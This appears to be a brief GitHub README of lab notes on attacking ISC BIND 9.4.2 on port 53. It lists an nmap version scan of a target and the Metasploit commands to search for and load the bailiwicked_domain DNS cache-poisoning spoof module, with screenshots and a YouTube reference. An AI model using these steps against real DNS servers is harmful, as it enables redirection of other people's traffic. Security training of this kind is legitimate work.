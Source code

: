 # Port-53-domain-ISC-BIND-9.4.2
1.nmap -sV (target ip)
![image](https://github.com/thanawut2903/Port-53-domain-ISC-BIND-9.4.2/assets/159118913/a884287b-d9c3-4bc1-86a1-fdc5b2aeecbf)
2.msfconsole

3.msf 6 > search bailiwicked_domain

4.msf 6 > use auxiliary/spoof/dns/bailiwicked_domain

![image](https://github.com/thanawut2903/Port-53-domain-ISC-BIND-9.4.2/assets/159118913/4d97949d-674b-4098-b6dc-2c3856266762)




Referance form : https://www.youtube.com/watch?v=T6miFkd6z_4
                 https://www.youtube.com/watch?v=T6miFkd6z_4


